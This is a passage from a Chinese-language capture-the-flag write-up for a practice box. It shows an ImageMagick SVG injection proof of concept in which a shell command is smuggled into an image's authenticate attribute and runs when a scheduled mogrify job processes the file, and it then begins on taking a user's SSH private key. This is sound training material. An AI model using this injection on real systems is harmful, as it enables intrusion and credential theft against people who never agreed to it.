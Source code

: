一直向下滚动到那篇文章的末尾，有一个概念证明:

![](img/d6e0f9046ccddefc5634309482e2a014.png)

Imagemacgick 注入漏洞

我在盒子上创建了一个名为 poc.svg 的文件，并将上面的内容放入其中。我唯一更改的是将要创建的文件的路径:

```
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
```

检查文件在这里:

```
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 www-data www-data  407 Jan 23 13:35 poc.svg
```

现在我们将它复制到脚本运行 mogrify 的路径:

```
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

等待几分钟，再次查看我们的文件:

```
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 thomas   thomas     54 Jan 23 13:38 0wned
4 -rw-r--r--  1 www-data www-data  407 Jan 23 13:35 poc.svg
```

# 导出 SSH 私钥

让我们用这个从托马斯那里拿到私人钥匙。我们之前看到的 ssh 文件夹:

![](img/6fd2c99475069ece686eb43033c642cc.png)

